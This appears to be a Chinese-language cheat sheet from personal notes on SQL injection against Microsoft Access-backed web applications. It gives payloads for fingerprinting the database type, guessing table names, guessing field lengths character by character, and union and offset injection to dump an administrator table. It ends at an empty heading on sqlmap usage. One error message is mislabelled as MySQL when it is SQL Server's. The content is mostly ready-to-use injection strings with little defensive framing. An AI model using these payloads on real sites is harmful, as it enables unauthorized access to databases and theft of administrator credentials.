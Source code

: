 ![](https://s2.loli.net/2022/03/18/DWGAjaLoNZUYbpK.png)

### Access数据库注入

#### 判断数据库类型

##### 1、通过内置变量

```sql
and user>0
```

MySQL报错：Microsoft OLE DV Provider for SQL Server 错误’80040e21‘,将navrchar值转换为int。。。。。失败

Access报错：Microsoft OLE DB Provider Drivers ODBC Drivers 错误 ’80040e21

​					ODBC驱动程序不支持所需属性

##### 2、内置数据库类型：

```sql
and (select count(*) from sysobjects)>=0  
and (select count(*) from msysobjects)>=0
```

Access 数据库中不存在sysobjects表，但SQL Server中存在

#### 猜数据库名

```sql
and exists(select * from 表名)
and (select count(*) from 表名)>=0
```

#### 猜长度

```sql
and (select top 1 asc(mid(user_name,1,1)) from administrator)>97
```

#### 联合查询、偏移注入

联合查询：

 ```sql
union select 1,2,3,4,5,6,7 from administrator
 ```

偏移：

```sql
union select 1,a.id,b.id,* from (administrator as a inner join administrator as b on a,id=b.id)
```



![](https://s2.loli.net/2022/03/18/yYX35cTNHR8kdwm.png)

### sqlmap使用
